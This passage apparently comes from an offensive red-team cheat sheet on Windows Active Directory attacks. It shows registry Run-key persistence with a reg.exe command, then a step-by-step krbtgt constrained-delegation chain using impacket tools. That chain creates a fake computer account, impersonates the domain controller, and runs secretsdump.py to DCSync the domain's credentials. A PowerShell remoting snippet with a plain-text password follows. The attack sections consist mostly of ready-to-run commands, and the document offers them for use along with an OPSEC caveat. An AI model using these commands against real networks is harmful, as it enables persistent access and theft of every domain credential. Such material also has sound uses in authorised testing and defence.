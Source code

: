 ### Registry Keys
### Execute on startup
There are several registry keys can be added to execute binary on startup based on your need and current user context. 
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```
1. Add a new value to one of the KeyName above 
```powershell
reg.exe add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v RunMe /t REG_SZ /d "C:\Users\Public\mybinary.exe"
```

### krbtgt Constrained Delegation
1. Add a new computer account with [addcomputer.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/addcomputer.py). This steps would require a domain account with a privilege to create computer account. (Domain objects are allowed to create up to 10 computer accounts in a domain as per default configuration). 
```bash
addcomputer.py -computer-name FakeComputer -computer-pass 'Passw0rd' -dc-ip 192.168.86.170 legitcorp.local/lowpriv:'P@$$w0rd!xyz'
```
2. Set the _msDS-AllowedToDelegateTo_ attribute to `krbtgt/legitcorp`. [setCD.py](https://gist.githubusercontent.com/snovvcrash/c8f8fa7721c40f4cca0c46c196066a41/raw/3ddd82ab44048d0fe8530ae2da87199cdc70779f/setCD.py) is a script by [@snovvcrash](https://twitter.com/snovvcrash)
```bash
setCD.py legitcorp.local/Administrator:'P@$$w0rd!xyz' -dc-ip 192.168.86.170 -target 'FakeComputer$' -spn krbtgt/legitcorp
```
3. Request service ticket for the created computer by impersonating domain controller computer account (s4u delegation).
```bash
# request service ticket
getST.py -spn krbtgt/legitcorp legitcorp.local/FakeComputer\$:'Passw0rd' -dc-ip 192.168.86.170 -impersonate 'DC01$'

# export ticket into environment variable
export KRB5CCNAME='DC01$.ccache'
```
4. Perform DCSync on the domain controller
```bash
secretsdump.py legitcorp.local/DC01\$@dc01.legitcorp.local -dc-ip 192.168.86.170 -just-dc -k -no-pass
```
You can read more from this great [article](https://skyblue.team/posts/delegate-krbtgt/) from [citronneur](https://twitter.com/citronneur). _CAVEAT: This is not really an OPSEC safe choice to perform persistence. So please be extra careful and cautious when executing the above steps_

# Remote Authentication Between Computers
### PS Remoting
**PS Remoting** stands for PowerShell remoting, this will enable users to authenticate between powershell session in remote computers by using `*-PSSession`.
```powershell
# Create New PSRemoting Session (with current user privilege/no PSCredential needed)
$sess = New-PSSession -ComputerName dc01

# Create New PS Remoting Session (with plain-text password/PSCredential needed)
$username = 'contoso\studentadmin'
$password = ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!'
$cred = New-Object System.Management.Automation.PSCredential($username,$password)
```
